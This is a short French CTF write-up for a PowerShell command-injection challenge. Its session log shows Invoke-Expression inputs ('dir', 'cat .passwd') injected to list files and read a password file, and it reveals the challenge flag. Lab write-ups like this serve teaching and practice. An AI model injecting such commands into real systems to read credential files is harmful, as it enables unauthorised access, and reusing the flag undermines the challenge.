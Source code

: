 # Powershell - Command Injection

## 10 Points

### Il y a UI, UX et IEX

### Énoncé

Retrouvez le mot de passe de la base de données.

## Résolution

> Invoke-Expression(1+1)
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8ADMAeABGAEYASABrAEYAbABkAHUAdABOAGEARABEAEUAUwB1AGIAdwBiAHcAPQA9AHwAYgBiADcAYgBlADEAMAAzADQAMgA2ADUANAAzAGYAYgBlAGEAMQBhADUANABm
AGMANQAxADgANAAwAGQAYgA1AGIAOQBjADAANAAyAGUAOABhADMAOQBhADgANQA5ADAANgBjAGEANAA1ADQAYgA1ADcAMQA2AGUANwAwAGQAYQAwADEANgAyADAAMwBjAGQAMgA0ADEAOABiADQAMwAyAGIAMQBkAGQAMwA1ADcANwBjADcAOAA5AGYAYwBlADEA. Backup the table
Invoke-Expression 2
> 

> Invoke-Expression(echo ls)
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8ADMAeABGAEYASABrAEYAbABkAHUAdABOAGEARABEAEUAUwB1AGIAdwBiAHcAPQA9AHwAYgBiADcAYgBlADEAMAAzADQAMgA2ADUANAAzAGYAYgBlAGEAMQBhADUANABm
AGMANQAxADgANAAwAGQAYgA1AGIAOQBjADAANAAyAGUAOABhADMAOQBhADgANQA5ADAANgBjAGEANAA1ADQAYgA1ADcAMQA2AGUANwAwAGQAYQAwADEANgAyADAAMwBjAGQAMgA0ADEAOABiADQAMwAyAGIAMQBkAGQAMwA1ADcANwBjADcAOAA5AGYAYwBlADEA. Backup the table
Invoke-Expression ls
> 

> Invoke-Expression(dir)
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8ADMAeABGAEYASABrAEYAbABkAHUAdABOAGEARABEAEUAUwB1AGIAdwBiAHcAPQA9AHwAYgBiADcAYgBlADEAMAAzADQAMgA2ADUANAAzAGYAYgBlAGEAMQBhADUANABm
AGMANQAxADgANAAwAGQAYgA1AGIAOQBjADAANAAyAGUAOABhADMAOQBhADgANQA5ADAANgBjAGEANAA1ADQAYgA1ADcAMQA2AGUANwAwAGQAYQAwADEANgAyADAAMwBjAGQAMgA0ADEAOABiADQAMwAyAGIAMQBkAGQAMwA1ADcANwBjADcAOAA5AGYAYwBlADEA. Backup the table
Invoke-Expression .git .key .passwd ._perms ch18.ps1
> 

> Invoke-Expression(dir)
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8ADMAeABGAEYASABrAEYAbABkAHUAdABOAGEARABEAEUAUwB1AGIAdwBiAHcAPQA9AHwAYgBiADcAYgBlADEAMAAzADQAMgA2ADUANAAzAGYAYgBlAGEAMQBhADUANABm
AGMANQAxADgANAAwAGQAYgA1AGIAOQBjADAANAAyAGUAOABhADMAOQBhADgANQA5ADAANgBjAGEANAA1ADQAYgA1ADcAMQA2AGUANwAwAGQAYQAwADEANgAyADAAMwBjAGQAMgA0ADEAOABiADQAMwAyAGIAMQBkAGQAMwA1ADcANwBjADcAOAA5AGYAYwBlADEA. Backup the table
Invoke-Expression .git .key .passwd ._perms ch18.ps1
> 

> Invoke-Expression(cat .passwd)
Connect to the database With the secure Password: 76492d1116743f0423413b16050a5345MgB8ADMAeABGAEYASABrAEYAbABkAHUAdABOAGEARABEAEUAUwB1AGIAdwBiAHcAPQA9AHwAYgBiADcAYgBlADEAMAAzADQAMgA2ADUANAAzAGYAYgBlAGEAMQBhADUANABm
AGMANQAxADgANAAwAGQAYgA1AGIAOQBjADAANAAyAGUAOABhADMAOQBhADgANQA5ADAANgBjAGEANAA1ADQAYgA1ADcAMQA2AGUANwAwAGQAYQAwADEANgAyADAAMwBjAGQAMgA0ADEAOABiADQAMwAyAGIAMQBkAGQAMwA1ADcANwBjADcAOAA5AGYAYwBlADEA. Backup the table
Invoke-Expression **SecureIEXpassword**
>